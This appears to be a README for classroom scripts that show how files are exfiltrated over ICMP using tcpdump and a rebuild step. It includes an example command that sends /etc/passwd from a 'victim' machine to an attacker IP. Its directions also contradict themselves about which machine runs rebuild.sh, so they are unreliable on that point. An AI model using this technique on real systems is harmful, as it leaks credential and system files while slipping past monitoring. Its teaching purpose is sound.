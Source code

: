 ## About:
These programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM the VICTIM** machine over the ICMP protocol.   
- listen.sh: This runs the tcpdump command and produces the output file data.dmp.  
- pyarray.py: This program parses through the data.dmp file.  
- rebuild.sh: This script runs pyarray, produces a file called hexout, and prints the received file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
```
./listen.sh  
```

Copy **exfil.sh** to the **VICTIM MACHINE**  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
```
./exfil.sh /etc/passwd 192.168.14.5
```

Use CTRL-C to stop listen.sh.  
(You should see a file called data.dmp which contains the tcpdump output.)

On the **VICTIM** machine  
Run
```
./rebuild.sh 
```
The file sent from the victim will be printed in plain text.  


